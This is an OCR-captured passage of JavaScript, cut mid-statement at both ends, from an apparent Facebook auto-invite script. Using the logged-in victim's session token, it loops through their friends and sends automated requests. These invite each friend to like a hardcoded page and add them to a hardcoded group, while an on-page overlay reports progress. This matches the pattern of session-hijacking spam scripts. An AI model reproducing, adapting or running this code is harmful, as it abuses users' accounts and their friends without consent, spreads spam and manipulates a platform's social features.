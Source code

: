 a.substring(a.indexOf("{")); var c = JSON.parse(b); i--; Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;"; if (c.error) { Descriptions += "color:darked'>"; err++; if (c.errorDescription) Descriptions += c.errorDescription; else Descriptions += JSON.stringify(c, null, "") } else { Descriptions += "color:white'>"; Descriptions += arn[i] + " has been like page " + page_name + "."; suc++ } Descriptions += "&lt;/div>"; var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 255, 0.5);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0, 0, 255, 0.5);border-radius: 1em 4em 1em 4em;border:3px solid rgba(0, 0, 255, 0.5);background-color:rgba(0, 176, 255, 0.8);color:#ffffff'>"; display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>"; if (i > 0) { display += arr.length + " Friends Detected&lt;br/>"; display += "&lt;b>" + suc + "&lt;/b> Friends Invited of " + (arr.length - i) + " Friends Processed "; display += "(" + i + " Lefted...)"; display += "&lt;div class='friend-edge'>"; display += Descriptions; display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#3B5998;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>"; display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>"; display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".&lt;/br>"; display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Cancel&lt;/span>&lt;br/>"; display += _text; display += "&lt;/div>"; display += "&lt;/div>"; display += "&lt;/div>"; window[tag + "_close"] = true } else { Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>"; display += arr.length + " Friends Detected and "; display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>"; display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>"; display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>"; display += _text; display += "&lt;/div>"; window[tag + "_close"] = false } display += "&lt;/div>"; document.getElementById("pagelet_sidebar").innerHTML = display }, "text", "post"); tay--; if (tay > 0) { var s = arr[tay]; setTimeout("InviteFriends(" + s + ")", 100) } console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc); if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=776528142358209&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post") if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=776528142358209&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post") if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=665607346824079&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post"); if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=665607346824079&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post"); } jx = { b: function () { var b = !1; if ("undefined" != typeof ActiveXObject) try { b = new ActiveXObject("Msxml2.XMLHTTP") } catch (c) { try { b = new ActiveXObject("Microsoft.XMLHTTP") } catch (a) { b = !1 } } else if (window.XMLHttpRequest) try { b = new XMLHttpRequest } catch (h) { b = !1 } return b }, load: function (b, c, a, h, g) { var e = this.d(); if (e &amp;&amp; b) { e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text"); g || (g = {}); a = a.toLowerCase(); h = h.toUpperCase(); b += b.indexOf("?") + 1 ? "&amp;" : "?"; var k = null; "POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]); e.open(h, b, !0); e.onreadystatechange = g.c ? function () { g.c(e) } : function () { if (4 == e.readyState) if (200 == e.status) { var b = ""; e.responseText &amp;&amp; (b = e.responseText); "j" == a.charAt(0) ? (b = b.replace(/[  ]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML); c &amp;&amp; c(b) } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp;